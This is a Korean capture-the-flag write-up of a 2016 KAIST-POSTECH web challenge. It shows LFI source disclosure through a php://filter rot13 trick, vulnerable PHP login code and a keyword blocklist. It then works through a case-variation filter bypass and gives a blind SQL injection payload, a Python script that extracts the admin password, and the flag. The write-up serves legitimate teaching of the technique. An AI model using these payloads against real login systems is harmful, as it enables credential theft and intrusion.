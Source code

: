 ```yaml
---
layout: post
title: 2016 Kaist - Postech Science War Writeup (wargame_easy | Web 200pt)
category: Hacking
date: "2016-09-24"
---
```


처음으로 쓰는 Writeup이다!

Web계열의 200점(확실하지 않음)짜리 문제인 [wargame_easy](http://chall.pwn-with.me)이다.

![](/images/2016_09/kapo16/main1.png)

링크를 타고 들어가면, 환영 문구와 함께 'Login' 'Register' 두 개의 메뉴가 보인다.  
Register 메뉴를 통해 사이트에 가입한 후 로그인하면 다음과 같은 화면이 나온다.

![](/images/2016_09/kapo16/main2.png)

<!-- more -->

Prob, Auth, Rank 등의 메뉴로 미루어 보건데 CTF사이트를 모티브로 만들어진 사이트이다.  
실제로 Prob에 적혀있는 키를 Auth에 넣어 보니 점수가 올라가 Rank에 반영되는 것을 확인할 수 있었다.

rank 메뉴에 진입했을 때의 URL이 `http://chall.pwn-with.me/?page=rank`이므로, LFI 취약점이 존재할 것으로 생각된다.  
이를 이용해서 php filer로 base64 인코딩된 소스를 얻으려 했으나, 소스 보기를 했을 경우 detected라는 문구밖에 보이지 않는다. page 뒤의 argument에 특정 단어가 삽임되었을 경우 이를 필터랑하고 detected를 출력하도록 프로그램되었을 것을 예상할 수 있다.

다른 php filter를 이용한 시도 결과, `php://filter/read=string.rot13/resource=`가 filtering에 걸리지 않음을 확인할 수 있었고, 이를 통해 login, register, rank, info 페이지의 소스를 13칸 밀린 caesar cipher의 형태로 알아낼 수 있었다.  
이를 복호화한 결과는 다음과 같다. (당시 toUpper 함수를 사용하여, 모든 소스가 대문자로 이루어져 있다)

<p align="CENTER">
  <a href="https://github.com/GAONNR/Kapo2016/blob/master/plainIndex.php">index.php</a>&nbsp; &nbsp; &nbsp; &nbsp;
  <a href="https://github.com/GAONNR/Kapo2016/blob/master/plainLogin.php">login.php</a>&nbsp; &nbsp; &nbsp; &nbsp;
  <a href="https://github.com/GAONNR/Kapo2016/blob/master/plainInfo.php">info.php</a>
</p>

먼저 주목해야 할 것은 info페이지의 19 ~ 35번 라인이다.

```php
<?PHP
  IF($_POST){
    IF($_SESSION[ID] == 'ADMIN') EXIT();
    IF($_POST[PW] == ""){
      ECHO "<SCRIPT>ALERT('INPUT YOUR PASSWORD.');HISTORY.GO(-1);</SCRIPT>";
      EXIT();
    }
    IF(STRLEN($_POST[PW]) > 32){
      ECHO "<SCRIPT>ALERT('CAN'T CREATE PASSWORD BIGGER THAN 32 BYTES.');HISTORY.GO(-1);</SCRIPT>";
      EXIT();
    }
    $_POST[PW] = ADDSLASHES($_POST[PW]);
    $SQL = "UPDATE MEMBER SET PW = '$_POST[PW]' WHERE ID = '$_SESSION[ID]'";
    $Q = @MYSQL_QUERY($SQL);
    ECHO "<SCRIPT>ALERT('PW CHANGED.');LOCATION.HREF='?PAGE=INFO';</SCRIPT>";
  }
?>
```

info 페이지는 사용자의 비멀번호를 변경할 수 있는 페이지인데, 세 번째 줄의 `IF($_SESSION[ID] == 'ADMIN') EXIT();`에 의해 서버에 admin이 등록되어 있으며, admin 계정의 비밀번호 변경을 막고 있음을 알 수 있다. 따라서 admin계정의 비밀번호를 알아내는 것을 목표로 정하고 다음 과정을 진행하였다.

다음으로 login 페이지의 12 ~ 35번 라인에서 공격 방식에 대한 힌트를 찾을 수 있었다.

```php
<?PHP
	IF($_POST){
		IF($_SESSION[ID]){
			ECHO "<SCRIPT>ALERT('YOU HAVE ALREADY LOGGED IN.');HISTORY.GO(-1);</SCRIPT>";
			EXIT();
		}
		$SQL = "SELECT * FROM MEMBER WHERE ID = '".TRIM($_POST[ID])."'";
		$RESULT = @MYSQL_QUERY($SQL);
		$DATA = @MYSQL_FETCH_ARRAY($RESULT);
		IF($DATA[ID]){
			IF($_POST[PW] == $DATA[PW]){
				$_SESSION[ID] = $DATA[ID];
				ECHO "<SCRIPT>ALERT('HELLO $_SESSION[ID]');LOCATION.HREF='./';</SCRIPT>";
			}ELSE{
				ECHO "<SCRIPT>HISTORY.GO(-1);</SCRIPT>";
				EXIT();
			}
		}ELSE{
			ECHO "<SCRIPT>HISTORY.GO(-1);</SCRIPT>";
			EXIT();
		}
	}
?>
```

공격 방식으로 SQL Injection이 유효함을 (매우 쉽게) 알 수 있다.

이제 index 페이지의 75 ~ 80번 라인을 보면,

```php
<?PHP
	IF(PREG_MATCH("/CONVERT|BASE64|DATA|UNION|SELECT|FROM|WHERE|SLEEP|BENCH|JOIN|CHAR|INFOR|SCHEMA|COLUMNS|LIKE|#|\)|\(|>|<|,|\*|!|\.\./",IMPLODE($_GET))) EXIT("DETECTED");
	IF(PREG_MATCH("/CONVERT|BASE64|DATA|UNION|SELECT|FROM|WHERE|SLEEP|BENCH|JOIN|CHAR|INFOR|SCHEMA|COLUMNS|LIKE|#|\)|\(|>|<|,|\*|!|\.\./",IMPLODE($_POST))) EXIT("DETECTED");
	IF(ISSET($_GET[PAGE])){
		INCLUDE($_GET[PAGE].".PHP");
	}ELSE{
?>
```

base64, select 등의 많은 구문을 입력에서 걸러내고 있음을 알 수 있다. 처음 LFI를 시도할 때, base64 filter가 detected된 것도 이 코드에 의해서임을 파악할 수 있었다.

처음에는 Time-based Blind SQL Injecton으로 공격을 시도하려 했으나, `sleep`, `bench`등의 중요한 함수들이 필터링되고, 결정적으로 괄호 `(`, `)`들이 필터링되어 불가능하다고 판단되었다. 괄호가 막혔기 때문에 목록에 없는 함수를 사용하는 것도 거의 불가능했다.

그러나 곧 위 코드의 치명적인 취약점을 찾아낼 수 있었는데, 그것은 `preg_match`함수의 첫 번째 argument string 뒤에 `i`가 붙지 않았다는 것이었다. 이는 preg_match에서 대소문자를 구별하여 받아들인다는 것을 뜻하고, SQL은 구문의 대소문자를 구별하지 않으므로, 이를 이용하여 필터링을 아주 간단하게 우회할 수 있었다. 예를 들어 `like`를 SQL 구문에 포함시키고 싶다면, `like` 대신 `LikE`라고 쓰면 필터링을 우회하여 서버에 그대로 구문을 보낼 수 있게 된다.

이에 착안하여 다음과 같은 payload를 만들 수 있었다.

`fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a`

이를 login의 id에 넣으면 다음과 같은 SQL Query가 완성된다.

```sql
SELECT * FROM MEMBER WHERE ID = 'fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a
```

괄호가 필터링됨으로 인해 if, substr등의 함수를 사용할 수 없었으므로, 그 대신에 case when과 like를 활용하여 비슷한 역할을 하는 구문을 만들 수 있었다.

ID로 들어가는 `fqwrlqwrhqwklhflqfi123123`은 서버에 등록되어 있지 않은 id이므로, 언제나 거짓을 반환한다. 그 후 `CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END`를 만나게 되는데, 만약 admin의 pw가 a로 시작한다면 TRUE를, 아니라면 FALSE를 반환한다. 만약 FALSE라면, 뒤의 구문에 의해 `godj3`을 id로서 불러오게 되고, pw부분에 미리 만들어 둔 godj3 계정의 비밀번호를 입력해 두면 godj3계정으로 로그인된다. 만약 admin의 pw가 a로 시작한다면, 미리 입력해 둔 godj3 계정의 비밀번호와 admin의 비밀번호는 맞지 않을 것이므로 로그인에 실패하게 된다. 이를 이용하여 admin의 password를 알아내는 프로그램을 짤 수 있다.

<p align="CENTER">
	<a href="https://github.com/GAONNR/Kapo2016/blob/master/login.py">login.py</a>
</p>

```python
import requests
import string

baseurl = 'http://chall.pwn-with.me/?page=login'

def postData(id, pw):
    params = {'id': id, 'pw': pw}
    res = requests.post(baseurl, data = params)

    #print res.text
    if res.text.find('Hello') > 0:
        return True
    else:
        return False


# print postData('''fqwrlqwrhqwklhflqf' or if(id='admin' and 0, 1, 0) or name='guest' order by name asc -- a''', 'guest')

print postData("fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND FALSE THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a", 'godj3')

print postData('godj3', 'godj3')

print postData("sadawqoeqweqnnncxma' or id='godj3' -- a", 'godj3')

payload = "fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE '"

payend = "%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a"

key = ''

for k in range(100):
    check = False
    for i in string.printable:
        if i == '_' or i == '!' or i == '#' or i == '%' or i == '\'' or i == '\"' or i == '(' or i == ')' or i == '*' or i == '+' or i == '-' or i == '&' or i == '|' or i == '>' or i == '<' or i == '=' or i == '?' or i == '~' or i == ',':
            continue
        # print key + i,
        # print postData(payload + i + payend, 'godj3')
        if not postData(payload + key + i + payend, 'godj3'):
            print key + i
            key = key + i
            check = True
            break

    if check == False:
        key += '_'
```

flag: `kapo{j.s.bach_french_suites}`
